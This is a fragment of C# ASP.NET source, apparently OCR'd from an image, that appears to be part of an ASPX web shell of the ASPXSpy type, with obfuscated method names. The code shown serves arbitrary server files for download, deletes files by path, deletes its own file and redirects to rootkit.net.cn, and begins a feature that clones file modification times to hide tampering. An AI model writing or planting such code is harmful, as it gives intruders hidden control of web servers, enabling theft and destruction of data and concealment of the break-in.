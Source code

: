 sr.Close();
}
else
{
Xgvv.InnerText=string.Empty;
}
}
public void ksGR(string path)
{
FileInfo fs=new FileInfo(path);
Response.Clear();
Page.Response.ClearHeaders();
Page.Response.Buffer=false;
this.EnableViewState=false;
Response.AddHeader("Content-Disposition","attachment;filename="+HttpUtility.UrlEncode(fs.Name,System.Text.Encoding.UTF8));
Response.AddHeader("Content-Length",fs.Length.ToString());
Page.Response.ContentType="application/unknown";
Response.WriteFile(fs.FullName);
Page.Response.Flush();
Page.Response.Close();
Response.End();
Page.Response.Clear();
}
public void SJv(string path)
{
try
{
string[] spdT=path.Split(',');
for(int i=0;i&lt;spdT.Length-1;i++)
{
File.Delete(AXSbb.Value+Ebgw(spdT[i]));
}
xseuB("File Delete Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void hae()
{
try
{
File.Delete(Request.PhysicalPath);
Response.Redirect("http://www.rootkit.net.cn");
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void cYAl(string path)
{
Bin_H2_Title.InnerHtml="Clone file was last modified time &gt;&gt;";
WICxe();
zRyG.Visible=true;
QiFB.Value=AXSbb.Value+path;
lICp.Value=AXSbb.Value;
pWVL.Value=AXSbb.Value+path;
string Att=File.GetAttributes(QiFB.Value).ToString();
if(Att.LastIndexOf("ReadOnly")!=-1)
{